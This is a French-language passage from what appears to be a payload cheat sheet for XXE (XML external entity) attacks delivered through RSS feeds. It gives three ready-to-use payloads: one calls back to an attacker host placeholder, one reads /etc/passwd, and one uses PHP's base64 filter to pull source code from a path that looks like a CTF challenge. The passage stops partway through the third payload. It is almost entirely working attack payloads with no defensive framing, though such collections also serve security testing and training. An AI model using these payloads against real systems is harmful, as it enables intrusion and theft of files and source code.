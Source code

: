XML valide au format RSS pour exploiter une vulnérabilité XXE.

### Ping back

Requête HTTP simple vers le serveur des attaquants.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
### Lire le fichier
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
### Lire le code source

Utiliser le filtre base64 de PHP
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
```